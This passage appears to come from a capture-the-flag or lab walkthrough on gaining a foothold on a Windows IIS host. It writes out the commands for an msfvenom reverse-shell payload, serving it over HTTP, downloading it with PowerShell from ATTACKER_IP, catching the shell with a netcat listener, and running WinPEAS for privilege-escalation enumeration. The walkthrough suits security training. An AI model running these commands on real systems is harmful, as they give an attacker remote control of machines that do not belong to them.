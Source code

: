 msfvenom -p windows/shell\_reverse\_tcp -a x86 --encoder x86/shikata\_ga\_nai lhost=10.10.68.184 lport=3456 -f exe -o shell3.exe

* Create http server to serve payload.

python3 -m http.server

* Pull payload onto target using PowerShell.
  * "C:\Windows\Temp" directory is generally world writable.

powershell -c "Invoke-WebRequest -Uri 'http://ATTACKER\_IP:8000/shell3.exe' -OutFile 'c:\windows\temp\shell3.exe'"

* Create netcat listener.

nc -lvnp 3456

* Execute reverse shell.

.\windows\temp\shell3.exe

* Reverse shell received by listener.

Connection from 10.10.197.245 49625 received!

Microsoft Windows \[Version 6.3.9600]

(c) 2013 Microsoft Corporation. All rights reserved.

whoami

iis apppool\blog

**2. Use WinPEAS to enumerate target for potential vulnerabilities.**

* Download WinPEAS.bat to attack host.

wget https://github.com/carlospolop/PEASS-ng/releases/download/20240225-d29d697a/winPEAS.bat

* Pull WinPEAS.bat to target.

powershell -c "Invoke-WebRequest -Uri 'http://ATTACKER\_IP:8000/winPEAS.bat' -OutFile 'c:\windows\temp\winPEAS.bat'"

* Use WinPEAS to enumerate and recommend potential vulnerabilities to exploit.
  * .\filename.exe\` used to execute files.

.\winpeas.bat > winpeas.txt

* Running processes are of interest in this use case.

**3. Use gathered information to escalate to Administrator.**

As per above methodology.

